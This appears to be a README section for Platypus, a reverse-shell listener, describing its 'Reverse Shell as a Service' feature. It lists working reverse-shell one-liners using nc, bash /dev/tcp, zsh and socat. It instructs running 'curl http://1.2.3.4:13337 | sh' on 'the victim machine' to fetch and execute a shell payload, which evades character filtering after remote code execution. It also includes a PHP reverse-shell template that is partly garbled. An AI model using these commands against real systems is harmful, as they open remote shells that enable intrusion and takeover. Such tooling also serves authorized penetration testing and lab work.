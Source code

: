 # Reverse shell as a Service


> Inspired by https://github.com/lukechilds/reverse-shell

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port `13337 / 1338` can handle reverse shell client connections.  
Also, There is another interesting feature that platypus provides, which is called `Reverse Shell as a Service (RaaS)`.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.
Like you have already used before, here are some **BAD** examples:

```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```

To archive your aim, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/13337 0>&1"` is the equivalent of `curl http://1.2.3.4:13337/5.6.7.8/13337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/13337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:13337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./internal/util/resource/resource.go ./internal/runtime/... ./html/dist
```


